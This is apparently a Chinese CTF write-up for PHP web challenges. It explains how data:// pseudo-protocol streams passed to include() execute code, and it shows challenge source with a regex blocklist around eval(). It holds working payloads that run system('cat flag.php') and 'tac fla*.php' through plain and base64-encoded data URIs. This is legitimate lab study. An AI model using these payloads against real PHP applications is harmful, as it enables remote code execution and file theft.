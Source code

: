 include （或 require）语句会获取指定文件中存在的所有文本/代码/标记，并复制到使用 include 语句的文件中。
伪协议中的`data://`，可以让用户来控制输入流，当它与包含函数结合时，用户输入的data://流会被当作php文件执行

```php
?c=data://text/plain,<?php system("cat f*")?>       //查看flag.php，右键源码中查找flag
?c=data://text/plain;base64,PD9waHAgc3lzdGVtKCdjYXQgZmxhZy5waHAnKT8+
                          //'base64,'后面是base64加密的<?php system('cat flag.php')?>
?c=data://text/plain;base64,PD9waHAgCnN5c3RlbSgidGFjIGZsYWcucGhwIikKPz4=
                          //'base64,'后面是base64加密的<?php system("tac flag.php")?>
                          // Base64内容中，可以尝试在php后回车
```





## Web 39

代码如下：

```php
<?php
error_reporting(0);
if (isset($_GET['c'])) {
    $c = $_GET['c'];
    if (!preg_match("/flag/i", $c)) {
        include($c . ".php");
    }
} else {
    highlight_file(__FILE__);
}
?>
```

查看发现只过滤flag，但是LFI的时候会带上.php，这里先尝试一波执行data伪协议，尝试.php后缀是否会对伪协议的执行产生影响

`?c=data://text/plain,<?php system("tac fla*.php");?>`

执行发现成功，加上.php并不会对伪协议的执行有影响,因为<?php code ?> 已经闭合执行完了



### 双引号引发的问题：

这句话不能成功：`?c=data://text/plain,<?php system(“tac fla*.php”);?>`

但是上面那一句可以，这两个只有双引号不同，`""`  `“”` ，都是英文状态下的双引号，但就是不一样，其实前者是在url中输入的双引号，而后者就是在这里输入的。以后需要注意一下这个。





## Web 40

代码如下：

```php
<?php
if (isset($_GET['c'])) {
    $c = $_GET['c'];
    if (!preg_match("/[0-9]|\~|\`|\@|\#|\\$|\%|\^|\&|\*|\（|\）|\-|\=|\+|\{|\[|\]|\}|\:|\'|\"|\,|\<|\.|\>|\/|\?|\\\\/i", $c)) {
        eval($c);
    }
} else {
    highlight_file(__FILE__);
}
?>
```
